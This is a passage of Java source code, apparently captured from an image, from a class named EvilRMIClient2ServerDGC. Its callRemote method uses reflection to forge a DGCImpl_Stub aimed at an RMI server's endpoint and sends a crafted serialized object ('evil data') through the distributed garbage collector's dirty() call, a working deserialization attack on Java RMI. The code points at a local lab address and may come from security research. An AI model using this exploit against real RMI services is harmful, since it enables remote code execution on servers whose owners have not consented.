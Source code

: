 ```java
            return (RemoteService) call.getInputStream().readObject();

        } catch (Exception ex) {
            ex.printStackTrace();
        }
        return null;
    }

    public void callRemote(String name) throws RemoteException, NotBoundException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9099);

        try {
            // get remote service
            RemoteService rs = getRemoteService(name);

            // get unicastref info, include target ip:port and ObjID
            Field h = rs.getClass().getSuperclass().getDeclaredField("h");
            h.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) h.get(rs);

            Field ref = handler.getClass().getSuperclass().getDeclaredField("ref");
            ref.setAccessible(true);
            UnicastRef unicastRef = (UnicastRef) ref.get(handler);

            LiveRef innerLiveRef = unicastRef.getLiveRef();
            // Get the target tcpendpoint
            Field ep = innerLiveRef.getClass().getDeclaredField("ep");
            ep.setAccessible(true);
            TCPEndpoint tcpEndpoint = (TCPEndpoint) ep.get(innerLiveRef);
            // Get the unicastRef ObjID to refer target DGCImpl_Skel
            Class a = Class.forName("sun.rmi.transport.DGCClient");
            Field f = a.getDeclaredField("dgcID");
            f.setAccessible(true);
            ObjID dgcID = (ObjID) f.get(null);

            LiveRef targetLiveRef = new LiveRef(dgcID, tcpEndpoint, false);
            // Create a DGCImpl_Stub object
            Class dgcStub = Class.forName("sun.rmi.transport.DGCImpl_Stub");
            Constructor dgcC = dgcStub.getConstructor(RemoteRef.class);
            DGCImpl_Stub stub = (DGCImpl_Stub) dgcC.newInstance(new UnicastRef(targetLiveRef));

            Field operations = stub.getClass().getDeclaredField("operations");
            Field interfaceHash = stub.getClass().getDeclaredField("interfaceHash");
            operations.setAccessible(true);
            interfaceHash.setAccessible(true);

            // write evil data
            RemoteCall call = stub.getRef().newCall((RemoteObject) stub, (Operation[]) operations.get(stub), 1, (Long) interfaceHash.get(stub));
            ObjectOutput out = call.getOutputStream();
            out.writeObject(create());

            // call dirty()
            stub.getRef().invoke(call);
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            EvilRMIClient2ServerDGC rc = new EvilRMIClient2ServerDGC();

```